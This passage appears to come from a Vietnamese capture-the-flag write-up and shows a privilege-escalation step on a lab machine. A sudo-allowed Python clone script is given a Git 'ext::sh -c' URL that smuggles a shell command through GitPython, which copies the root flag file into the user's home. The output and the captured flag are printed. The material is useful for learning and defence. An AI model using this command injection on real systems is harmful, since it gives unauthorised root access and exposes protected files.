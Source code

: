 ```
-rw-r--r-- 1 prod prod 3771 Jan  6  2022 .bashrc
drwx------ 3 prod prod 4096 Jun  5  2024 .cache
drwxrwxr-x 4 prod prod 4096 Jun  5  2024 .local
-rw-r--r-- 1 prod prod  807 Jan  6  2022 .profile
drwx------ 2 prod prod 4096 Jun  5  2024 .ssh
```
Bằng cách này thì có thể thực thi các lệnh dưới quyền root => leo quyền thành công:
```
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt>/home/prod/abc.txt'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt>/home/prod/abc.txt new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ cat abc.txt 
b06f4f875af902ad392b13a0f3fd622a
prod@editorial:~$ 
```
